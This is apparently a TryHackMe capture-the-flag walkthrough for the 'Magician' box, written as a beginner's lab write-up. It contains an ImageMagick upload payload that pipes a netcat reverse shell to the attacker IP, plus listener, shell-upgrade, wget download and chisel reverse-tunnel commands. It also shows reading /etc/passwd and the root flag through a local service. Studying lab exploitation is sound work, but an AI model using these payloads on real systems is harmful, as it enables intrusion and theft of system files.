

Magician WriteUp

## <ins> **Magician TryHackMe Walkthrough** </ins>  

 ~ l0lt3under 
  

**
 65 min Read** 

 

Welcome to this beginner's adventure! , this was an easy box from TryHackMe, aptly named *"magican"*.

**Let's Begin!!**

#### NOTES TO REMEMBER:

1. Victim IP is **10.10.48.181**
2. Attacker IP is **10.11.29.22**
3. Please make sure to add **"magican"** in your **/etc/hosts** file otherwise it will not work. 

let's start by adding an entry to /etc/hosts , 

So , let's not waste any time and fire up our nmap scan as part of our enumeration!
I won't explain nmap here but you can check out an awesome reference [here](https://medium.com/@infosecsanyam/nmap-cheat-sheet-nmap-scanning-types-scanning-commands-nse-scripts-868a7bd7f692)

`sudo nmap -sC -sV -A -T4 -oA nmap/initial_scan -vvv 10.10.48.181 `

we get : 

#### 10.10.48.181 : 

| Port | State | Service | Version |
|------|-------|---------|---------|
| 21/tcp | open | *ftp* | vsftpd 2.0.8 or later |
| 8080/tcp | open | *http-proxy* |   |
| 8081/tcp | open | *http* | nginx 1.14.0 |

*Full dump  **[here](https://pastebin.com/SwcYhHUC)***

So , we see two web server *like* ports open let's have a look in the browser.

We can see  that we get a error at port 8080! shoot , well tough luck , let's try another port ie. 8081 at **http://magician:8081**

we see an application load up on this port! Nice!

It says it's a **"PNG to JPG converter"** , now here if you are a beginner motivated to learn , i would give all that opportunity! 

#### Links to Learn From!:
- http://www.libpng.org/pub/png/spec/1.2/PNG-Structure.html
- https://docs.fileformat.com/image/jpeg/ 
- try to understand : https://github.com/mcourant/convert-png-to-jpg 
- https://book.hacktricks.xyz/pentesting-web/file-upload (Further learning)

I would serously recommend reading up on above links before continuing , it'll really help cement a LOT of concepts we're about to use!

OKAY, so assuming you've been a good and curious student 😉 ,  let's go ahead with our pentest .

google **"PNG to JPG converter exploit "**, to see of some known vulnerabilities known for this *application/software/implementation* , you should see something like this, 

wow , that's a lot of weird references to something called **"ImageMagick"**, let's research first what it is!

just google **"ImageMagick"** to learn more about it 

##### There is a lot of info about it [here](https://en.wikipedia.org/wiki/ImageMagick)

So , now that we have some general idea about what exactly this piece of software is , let's start finding issues in it , after a simple google search about **"common php vulnerabilities"** , we notice that we have something called **"insecure file upload"** in *PHP*. 

Now, here comes another chance , to learn about a truly amazing resource on the internet which i will come back to later **[GO HERE](https://github.com/swisskyrepo/PayloadsAllTheThings)**

now , back on topic let's google , **"ImageMagick exploit"** to find any publicly available exploit code for it that *maybe* we can use. 

you will see several references to a popular exploit technique . one such is  [here](https://rhinosecuritylabs.com/research/imagemagick-exploit-remediation/)

let's **Try Harder** and challenge ourselfs to make our **own Exploit Code**

**push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/someimage.jpg"|nc -e /bin/sh 10.11.29.22 "6969)'
pop graphic-context**

write this in any text editor (sublime recommended) and save it as **reverse.png** if you don't understand what is going on , [READ](https://rhinosecuritylabs.com/research/imagemagick-exploit-remediation/)  .

then we open up a terminal on our **Attacker Machine** (Ubuntu in my case) and type the following :

`rlwrap nc -nlvp 6969`

*note : you can install rlwrap by running : `sudo apt install rlwrap` to learn more go [here](https://tryhackme.com/room/introtoshells)*

This will start a **listener** on our **Attacker Machine** which can receive connection back from a **Victim Machine**  . 

then upload our **reverse.png** and look back in our terminal !!!  (type *"id"* in the terminal , if you do not see any output you are on the right path!)

ERROR , something went horribly wrong and we did not get any connection back !! , did our amazing enumeration sills fail us??!

NOPE , as a matter of fact , our enumeration was dead on right and we just aren't using enough firepower here. 

So , let's swicth gears , first goto **payload all the things** github repository. (Hint: i have already shared the link above , find it! )

Now try to find an **ImageMagick** related folder or payload , 

after using our carefully honed skills we will land on this specific shellcode to act as our payload :  

[folder!](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Picture%20Image%20Magik)

Inside this folder , we are going to choose the netcat payload because that is the tool we are using to establish a connection to the victim, :

[shellcode/payload](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/Upload%20Insecure%20Files/Picture%20Image%20Magik/imagetragik1_payload_imageover_reverse_shell_netcat_fifo.png)

Make a file called **shell.png** and load our payload in it and open it up in any text editor then change it's LOCAL_IP and LOCAL_PORT to that of the **Attacker Machine** , so that the  **Victim Machine** knows who are the divine masters calling it remotly 🥸.

we can easily see a lot of input confusion and [piping](https://www.geeksforgeeks.org/piping-in-unix-or-linux/) is going on here , i will not explain this code , that will be your **homework**. 

next we just check if our netcat setup is running and if everything is ready , we start to upload this file on http://magician:8081 

immediatly after uploading (assuming inside shell.png you correct tryhackme tun0 IP is mentioned) you'll see a shell pop up on your system!

CONGRATULATIONS! 🥳 

so here's another piece of advice , the shell you have access to now is not like your typical ssh shell , cause it is extremly unstable and we should run some cmds to make sure it stable enough to use.

run these commands in this exact order in your newly accquired shell session : 

`CTRL + Z`
`stty raw -echo; fg`

After doing this you'll  be in your shell again , then run  : 

`python -c 'import pty;pty.spawn("/bin/bash")'`
`export TERM=xterm`

After you have ran these cmds in the order shown above , you should have a fairly stable shell to work with. 

now goto /home/magician 

`cd /home/magician`

`ls -llah`

Finally , we can see a **user.txt** flag on the system!!!

let's read it 

`cat user.txt`

WE GOT THE FLAG!!!!!!!

BUT wait ! , there is something else , something magical that is going on!! , we can also see a file called **"the_magic_continues"**! 

let's try reading it !

`cat the_magic_continues`

hmm, it says there is a port on the system?? a cat software running ?? there are a lot of unanswered questions , it looks like this file won't be of much help , let's try some basic linux information gathering. 

`find / -perm 4000 -type f -exec ls -la {} 2>/dev/null \;` run this to find weird files with weird permissions 

we see we get no output , NEXT!

`cat /etc/crontab` 

we see nothing worth looking into 😫

`crontab -l`

we see that there are no crontabs for our currently compromised user

Now , let's get to my favorite part which is lateral movement and network exploitation .

`netstat -tulpn | grep LISTEN`

this command will show us active tunnels and connections and is seriously something you should note down in your notebook!

all these ports look normal 53 is DNS , we saw 8081 before in our nmap scan and 8080 is running a web service and 21 has the ftp service , so there is only one in this crowrd who is unaccounted for and that is **6666** .

`telnet 10.10.48.181 6666`

but if we try to access it we are not able to !!!!

Now , again , it is time to learn again !!

Follow the below links and come back when your research is complete: 
-
1. https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html 
2. https://github.com/jpillora/chisel
3. https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20:/Network%20Pivoting%20Techniques.md
4. https://www.sevenlayers.com/index.php/332-chisel-port-forward
5. https://book.hacktricks.xyz/tunneling-and-port-forwarding
6. https://oscp.infosecsanyam.in/pivoting 

if you lack networking skills then, 

- [Networking](https://www.youtube.com/playlist?list=PLG49S3nxzAnmpdmX7RoTOyuNJQAb-r-gd)
- [Basic Security Theory](https://www.youtube.com/playlist?list=PLG49S3nxzAnnVhoAaL4B6aMFDQ8_gdxAy)

OKAY, so from now on im going to be assuming that you have general idea about a nifty tool called **chisel** and know about bridgeing and tuneling networks in computers a little. 

Again , there is no pressure , learn at your own pace 👍 

....
........
....................

Okay , you should be done by now , so here is how it's goona go .

we'll create a tunnel between , the  **Victim Machine**'s IP at port 6666 to one of our ports becuase we are on the same extrenal network , as long as  one of the users on the  **Victim Machine**  does this there should be no problem with this kind of attack.

we'll use a industry standard tool for this called **Chisel** . 

Download [Chisel](https://github.com/jpillora/chisel.git) and compile it by running `go build  ` in its folder/directory.([Setup for GO](https://linuxize.com/post/how-to-install-go-on-ubuntu-20-04/))

You should now see a compiled binary file for chisel!

Next , we'll setup a simple Python3 http server  and force our victim to download our freshly compiled chisel binary through our shell that we have on the **Victim Machine**.

switch to a directory you have control over  , then 
-
`git clone https://github.com/jpillora/chisel.git`

`cd chisel`

`go build` 

`sudo python3 -m http.server 5555`

if using python 2 then : `python2 -m SimpleHTTPServer 5555`

Then on the **Victim Machine** on the shell , we do , 

`wget http://10.11.29.22:5555/chisel`

The chisel binary will download on the victim machine. 

now run the following cmds to see some magic happen!!

On **Victim Machine** :- 

`chmod +x chisel`

On **Attacker Machine** :-

`./chisel server --reverse --port 4343`

On **Victim Machine** :- 

`./chisel client 10.11.29.22:4343 R:4433:127.0.0.1:6666`

You should see a output on the shell , similar to this

Without touching any of your shells and terminal , open a browser and goto **http://Attacker_IP:4433**

You should see something amazing pop-up!!!

🥳🥳🥳🥳🥳

Finally , we saw what was on that port!

Next let's see what this application actually does

type `/etc/passwd`

and hit Submit a few times until you see the following string in the output : 

 `cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6ZGFlbW9uOi91c3Ivc2JpbjovdXNyL3NiaW4vbm9sb2dpbgpiaW46eDoyOjI6YmluOi9iaW46L3Vzci9zYmluL25vbG9naW4Kc3lzOng6MzozOnN5czovZGV2Oi91c3Ivc2Jpbi9ub2xvZ2luCnN5bmM6eDo0OjY1NTM0OnN5bmM6L2JpbjovYmluL3N5bmMKZ2FtZXM6eDo1OjYwOmdhbWVzOi91c3IvZ2FtZXM6L3Vzci9zYmluL25vbG9naW4KbWFuOng6NjoxMjptYW46L3Zhci9jYWNoZS9tYW46L3Vzci9zYmluL25vbG9naW4KbHA6eDo3Ojc6bHA6L3Zhci9zcG9vbC9scGQ6L3Vzci9zYmluL25vbG9naW4KbWFpbDp4Ojg6ODptYWlsOi92YXIvbWFpbDovdXNyL3NiaW4vbm9sb2dpbgpuZXdzOng6OTo5Om5ld3M6L3Zhci9zcG9vbC9uZXdzOi91c3Ivc2Jpbi9ub2xvZ2luCnV1Y3A6eDoxMDoxMDp1dWNwOi92YXIvc3Bvb2wvdXVjcDovdXNyL3NiaW4vbm9sb2dpbgpwcm94eTp4OjEzOjEzOnByb3h5Oi9iaW46L3Vzci9zYmluL25vbG9naW4Kd3d3LWRhdGE6eDozMzozMzp3d3ctZGF0YTovdmFyL3d3dzovdXNyL3NiaW4vbm9sb2dpbgpiYWNrdXA6eDozNDozNDpiYWNrdXA6L3Zhci9iYWNrdXBzOi91c3Ivc2Jpbi9ub2xvZ2luCmxpc3Q6eDozODozODpNYWlsaW5nIExpc3QgTWFuYWdlcjovdmFyL2xpc3Q6L3Vzci9zYmluL25vbG9naW4KaXJjOng6Mzk6Mzk6aXJjZDovdmFyL3J1bi9pcmNkOi91c3Ivc2Jpbi9ub2xvZ2luCmduYXRzOng6NDE6NDE6R25hdHMgQnVnLVJlcG9ydGluZyBTeXN0ZW0gKGFkbWluKTovdmFyL2xpYi9nbmF0czovdXNyL3NiaW4vbm9sb2dpbgpub2JvZHk6eDo2NTUzNDo2NTUzNDpub2JvZHk6L25vbmV4aXN0ZW50Oi91c3Ivc2Jpbi9ub2xvZ2luCnN5c3RlbWQtbmV0d29yazp4OjEwMDoxMDI6c3lzdGVtZCBOZXR3b3JrIE1hbmFnZW1lbnQsLCw6L3J1bi9zeXN0ZW1kL25ldGlmOi91c3Ivc2Jpbi9ub2xvZ2luCnN5c3RlbWQtcmVzb2x2ZTp4OjEwMToxMDM6c3lzdGVtZCBSZXNvbHZlciwsLDovcnVuL3N5c3RlbWQvcmVzb2x2ZTovdXNyL3NiaW4vbm9sb2dpbgpzeXNsb2c6eDoxMDI6MTA2OjovaG9tZS9zeXNsb2c6L3Vzci9zYmluL25vbG9naW4KbWVzc2FnZWJ1czp4OjEwMzoxMDc6Oi9ub25leGlzdGVudDovdXNyL3NiaW4vbm9sb2dpbgpfYXB0Ong6MTA0OjY1NTM0Ojovbm9uZXhpc3RlbnQ6L3Vzci9zYmluL25vbG9naW4KbHhkOng6MTA1OjY1NTM0OjovdmFyL2xpYi9seGQvOi9iaW4vZmFsc2UKdXVpZGQ6eDoxMDY6MTEwOjovcnVuL3V1aWRkOi91c3Ivc2Jpbi9ub2xvZ2luCmRuc21hc3E6eDoxMDc6NjU1MzQ6ZG5zbWFzcSwsLDovdmFyL2xpYi9taXNjOi91c3Ivc2Jpbi9ub2xvZ2luCmxhbmRzY2FwZTp4OjEwODoxMTI6Oi92YXIvbGliL2xhbmRzY2FwZTovdXNyL3NiaW4vbm9sb2dpbgpwb2xsaW5hdGU6eDoxMDk6MTo6L3Zhci9jYWNoZS9wb2xsaW5hdGU6L2Jpbi9mYWxzZQpzc2hkOng6MTEwOjY1NTM0OjovcnVuL3NzaGQ6L3Vzci9zYmluL25vbG9naW4KbWFnaWNpYW46eDoxMDAwOjEwMDA6bWFnaWNpYW46L2hvbWUvbWFnaWNpYW46L2Jpbi9iYXNoCmZ0cDp4OjExMToxMTM6ZnRwIGRhZW1vbiwsLDovc3J2L2Z0cDovdXNyL3NiaW4vbm9sb2dpbgo`
 
 This is a common cypher known as **Base64**.
 
 
 You can decode it in many ways i'll leave that part to you : 
 
**root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
magician:x:1000:1000:magician:/home/magician:/bin/bash
ftp:x:111:113:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin**

This is the decrypted Output , there is some interesting stuff here but it is clearly not what we were looking for.

According to the TryHackMe page for this machine , we need to read a file called **root.txt**
which is protected by the root user.

so , let's try `/root/root.txt` 

and hit submit a few times to see if we can get a base64 for this file 

After hitting Submit a few times we see the following as the output: 

**54484d7b6d616769635f6d61795f6d616b655f6d616e795f6d656e5f6d61647d0a**

Now goto a website called [CyberChef](https://gchq.github.io/CyberChef/)

and paste the above string in the input 

and then click on a magic wand that pops up on the output panel 

and we get the FLAG!!!

That's it submit both the flags on TryHackMe and you are done!!!

That's it from me 😎 

## HAPPY HACKING 
